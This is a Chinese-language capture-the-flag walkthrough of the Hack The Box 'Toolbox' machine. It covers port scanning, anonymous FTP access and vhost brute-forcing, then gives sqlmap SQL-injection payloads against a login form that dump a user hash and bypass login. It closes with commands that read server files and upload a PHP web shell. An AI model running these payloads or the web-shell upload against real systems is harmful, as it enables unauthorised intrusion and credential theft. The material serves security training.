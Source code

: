 # 免责声明
>本文渗透的主机经过合法授权。本文使用的工具和方法仅限学习交流使用，请不要将文中使用的工具和渗透思路用于任何非法用途，对此产生的一切后果，本人不承担任何责任，也不对造成的任何误用或损害负责


# 服务探测
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# nmap -p- 10.10.10.236 --open                                          
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 21:02 EST
Nmap scan report for 10.10.10.236
Host is up (0.25s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE
21/tcp    open  ftp
22/tcp    open  ssh
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
443/tcp   open  https
445/tcp   open  microsoft-ds
5985/tcp  open  wsman
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49668/tcp open  unknown
49669/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 81.26 seconds
                                                                                                                    
┌──(root💀kali)-[~/htb/Toolbox]
└─# nmap -sV -Pn 10.10.10.236 -p 21,22,135,139,443,445,5985,47001,49664,49665,49666,49667,49668,49669
Starting Nmap 7.92 ( https://nmap.org ) at 2022-01-26 21:04 EST
Nmap scan report for 10.10.10.236
Host is up (0.25s latency).

PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           FileZilla ftpd
22/tcp    open  ssh           OpenSSH for_Windows_7.7 (protocol 2.0)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp   open  tcpwrapped
445/tcp   open  microsoft-ds?
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49667/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.19 seconds

```

## ftp

可以匿名登录
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# ftp 10.10.10.236  
Connected to 10.10.10.236.
220-FileZilla Server 0.9.60 beta
220-written by Tim Kosse (tim.kosse@filezilla-project.org)
220 Please visit https://filezilla-project.org/
Name (10.10.10.236:root): anonymous
331 Password required for anonymous
Password: 
230 Logged on
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||59847|)
150 Opening data channel for directory listing of "/"
-r-xr-xr-x 1 ftp ftp      242520560 Feb 18  2020 docker-toolbox.exe

```

docker-toolbox是windows下的docker工具，说明这台靶机可能是一个docker镜像。


# web

80端口整个看起来就像一个静态网站


把megalogistic.com写到hosts文件
```echo "10.10.10.236   megalogistic.com">> /etc/hosts```


gobuster爆破vhosts
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# gobuster vhost -u https://megalogistic.com -k -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt -t 40 --no-error

===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:          https://megalogistic.com
[+] Method:       GET
[+] Threads:      40
[+] Wordlist:     /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt
[+] User Agent:   gobuster/3.1.0
[+] Timeout:      10s
===============================================================
2022/01/27 00:37:18 Starting gobuster in VHOST enumeration mode
===============================================================
Found: admin.megalogistic.com (Status: 200) [Size: 889]

```


或者用wfuzz
```
┌──(root💀kali)-[~/htb/Toolbox]
└─# wfuzz -u https://10.10.10.236 -H "Host: FUZZ.megalogistic.com" -w /usr/share/wordlists/SecLists/Discovery/DNS/subdomains-top1million-110000.txt --hh 22357
 /usr/lib/python3/dist-packages/wfuzz/__init__.py:34: UserWarning:Pycurl is not compiled against Openssl. Wfuzz might not work correctly when fuzzing SSL sites. Check Wfuzz's documentation for more information.
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: https://10.10.10.236/
Total requests: 114441

=====================================================================
ID           Response   Lines    Word       Chars       Payload                                            
=====================================================================

000000024:   200        35 L     83 W       889 Ch      "admin" 
```


把```admin.megalogistic.com```也加到hosts文件后，打开浏览器显示一个登录入口，burp截断登录请求测试发现可能存在sql注入


用sqlmap跑了一遍显示靶机的数据库是PostgreSQL,可以使用以下4种注入技术

```
sqlmap identified the following injection point(s) with a total of 164 HTTP(s) requests:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: OR boolean-based blind - WHERE or HAVING clause
    Payload: username=-9328' OR 5360=5360-- rFOM&password=admin

    Type: error-based
    Title: PostgreSQL AND error-based - WHERE or HAVING clause
    Payload: username=admin#' AND 4213=CAST((CHR(113)||CHR(98)||CHR(122)||CHR(112)||CHR(113))||(SELECT (CASE WHEN (4213=4213) THEN 1 ELSE 0 END))::text||(CHR(113)||CHR(112)||CHR(98)||CHR(98)||CHR(113)) AS NUMERIC)-- uJOK&password=admin

    Type: stacked queries
    Title: PostgreSQL > 8.1 stacked queries (comment)
    Payload: username=admin#';SELECT PG_SLEEP(5)--&password=admin

    Type: time-based blind
    Title: PostgreSQL > 8.1 AND time-based blind
    Payload: username=admin#' AND 5607=(SELECT 5607 FROM PG_SLEEP(5))-- UduU&password=admin
---
[00:53:58] [INFO] the back-end DBMS is PostgreSQL

```

使用基于错误的注入技术

拿到数据库名：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 --dbs

available databases [3]:
[*] information_schema
[*] pg_catalog
[*] public

```

表：
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public --tables
Database: public
[1 table]
+-------+
| users |
+-------+
```

数据
```
sqlmap -r data --batch --dbms=PostgreSQL --force-ssl --technique E --no-cast --threads 4 -D public -T users --dump

Table: users
[1 entry]
+----------------------------------+----------+
| password                         | username |
+----------------------------------+----------+
| 4a100a85cb5ca3616dcf137918550815 | admin    |
+----------------------------------+----------+
```

但是这个md5数据无法破解。
但是我们既然已经知道了username存在sql注入，那么可以用上面sqlmap跑出来的payload登录页面

> admin：admin#';SELECT PG_SLEEP(5)--
> passwd：随便

登录后台以后有两个留言信息:

> Server is currently stable
>The server is running normally and no issues have recently been detected. If you notice an outage, please report it to the administrator.


> Send credentials to Tony Update Printer Drivers


sqlmap -r data --batch --dbms=PostgreSQL --force-ssl  --no-cast --threads 4  --file-read "/var/www/admin/info.php"



sqlmap -r data --batch --dbms=PostgreSQL --force-ssl  --no-cast --threads 4   --file-write "/root/htb/Toolbox/shell.php"  --file-dest "/var/www/shell.php"
